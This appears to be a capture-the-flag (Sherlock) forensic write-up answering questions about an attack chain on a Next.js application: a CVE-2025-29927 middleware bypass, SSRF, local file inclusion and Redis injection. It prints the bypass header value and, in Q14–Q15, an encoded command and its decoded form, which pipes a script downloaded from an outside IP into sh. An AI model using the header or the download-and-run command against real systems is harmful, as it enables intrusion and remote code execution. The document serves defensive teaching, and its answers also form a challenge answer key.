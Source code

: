 
##### Sherlock Scenario

NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

___

### Q1: What version of Next.js is the application using?

#### A: 15.1.0

In the interface.log.

![](../../Img/Pasted%20image%2020250429152722.png)

___

### Q2: What local port is the Next.js-based application running on?

#### A: 3000

Q1 screenshot.

___

### Q3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

#### A: CVE-2025-29927

Googling it.

![](../../Img/Pasted%20image%2020250429153028.png)

https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass

___

### Q4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

#### A: main-app.js

Inside the access.log, the first thing that we can notice it's the files that tried to access.

![](../../Img/Pasted%20image%2020250429153550.png)

The 2 files that we are interested in are main-app.js and page.js (the ones with code 200)

![](../../Img/Pasted%20image%2020250429153738.png)

![](../../Img/Pasted%20image%2020250429153724.png)

main-app.js seems like the answer.

___

### Q5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

#### A: /api/bci/analytics

After the first .js files the attacker searched for. There is only this endpoint.

![](../../Img/Pasted%20image%2020250429153924.png)

___

### Q6: How many requests to this endpoint have resulted in an "Unauthorized" response?

#### A: 5

Unauthorized code is 401 (https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status/401)

![](../../Img/Pasted%20image%2020250429154143.png)

___

### Q7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

#### A: 2025-04-01 11:38:05

Search for the first 200 response from that endpoint.

![](../../Img/Pasted%20image%2020250429154309.png)

___

### Q8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

#### A: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

This article says it is. (https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

We can also see where the attack started in the interface.log file. It went from 1 to 4 middlewares. But those were the ones that didn't work.

![](../../Img/Pasted%20image%2020250429154442.png)

After those 4 ones it worked, so we can assume that there were 5 middlewares

![](../../Img/Pasted%20image%2020250429154736.png)

___

### Q9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

#### A: 4000

Just opening the data-api.log file we see this.

![](../../Img/Pasted%20image%2020250429154941.png)

___

### Q10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

#### A: /logs

In the same log file, following the brute force attack we cans see that one worked (bc it found a internal file).

![](../../Img/Pasted%20image%2020250429155315.png)

___

### Q11: When the vulnerable endpoint found was used maliciously for the first time?

#### A: 2025-04-01 11:39:01

That would be when it accessed a file for the first time.

___

### Q12: What is the attack name the endpoint is vulnerable to?

#### A: Local File Inclusion

That would be an LFI because it's passing the path of the file that the attacker wants to read in the logFile parameter that the /logs endpoint uses.

___

### Q13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

#### A: secret.key

Scrolling down in search for the last one, we found this.

![](../../Img/Pasted%20image%2020250429155754.png)

___ 

### Q14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

#### A: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb

As per the question, we check the redis.log file and find this weird command.

![](../../Img/Pasted%20image%2020250429155939.png)

___

### Q15: Once decoded, what is the command?

#### A: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh

I opened cyberchef and tried a few common conversions. Base 64 worked.


Tags: [Brute Force Attacks](../../Index/Brute%20Force%20Attacks.md) [Log Analysis](../../Index/Log%20Analysis.md) 